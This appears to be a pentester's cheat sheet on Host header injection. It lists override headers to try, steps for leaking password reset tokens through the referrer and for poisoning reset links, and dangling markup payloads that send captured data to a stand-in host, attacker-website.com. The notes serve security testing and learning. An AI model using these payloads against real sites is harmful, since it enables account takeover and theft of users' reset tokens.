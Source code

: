 Host-Header_Injection

## Headers to test
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
X-Forwarded-For
```

For these, try `localhost` or `127.0.0.1` ...

---

## Param miner extension "guest headers" in Burp

---

## Tips

- Duplicate Host headers
- Absolute url
- Duplicate and add line wrapping
- Inject host override headers (see Headers to test)

---

## Password reset token leak via referrer

- Reset password
- click on the link you received by e mail
- don't change the password, instead, click on any third party pages you can see on the webpage
- intercept the request with burp and check if you have the token inside.

---

## Password reset poisoning

- Modify Host header with your server. When the victim will click on the link, thanks to the evil host headers, the password reset token will be delivered to the attacker's server. Then, use the link you received.

- Try also the other headers, or the tips.

- Try adding `:<port_or_string>` at the end and see what kind of answer you have in your inbox. Is the `:` escaped ? Can you add `<` after that ? View source page for that. Do you have to escape with single or double quote ?

- Patch it using $_SERVER['SERVER_NAME'] rather thant $_SERVER['SERVER_HOST']

### Via dangling markup

```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

- Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context: `">`

- In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
'<href src="//attacker-website.com/?
```

- Try to find if you have to escape the context or not, and then include your < and the payload. View source page to check it.

- Here, when the victim will go on the inbox, it's will reflect it automatically, and you'll receive stuff on your server.

---




